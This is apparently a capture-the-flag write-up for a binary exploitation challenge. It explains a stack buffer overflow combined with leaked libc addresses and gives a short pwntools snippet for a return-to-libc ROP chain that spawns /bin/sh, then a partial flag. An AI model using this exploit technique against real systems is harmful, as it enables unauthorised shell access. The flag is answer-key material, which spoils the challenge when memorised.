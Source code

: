 ## Vulnerability Explanation

The binary leaks three **libc function addresses** (`fread`, `fwrite`, `fseek`) and then reads up to 120 bytes into a 32‑byte stack buffer without bounds checks. This classic **buffer overflow + info‑leak** lets us:

1. **Resolve libc**: Using any leaked symbol and its offset, we compute the libc base.
2. **Return‑to‑libc**: Build a ROP chain to call `system("/bin/sh")`.

## Exploitation Steps

1. **Leak addresses**  
   Parse the three printed pointers:

   ```c
   fread() at …
   fwrite() at …
   fseek() at …
   ```

2. **Identify libc version**
   Paste any one leak into https://libc.blukat.me to download the matching libc.so and its symbol offsets.

3. **Bild the ROP chain according to the offset calculated**:
   ```py
   padding = b"A"*40
   rop     = flat(
   p64(pop_rdi),
   p64(bin_sh),
   p64(ret),
   p64(system)
   )
   r.sendline(padding + rop)
   ```

### Flag: ghctf{bl1nd_pwn...}
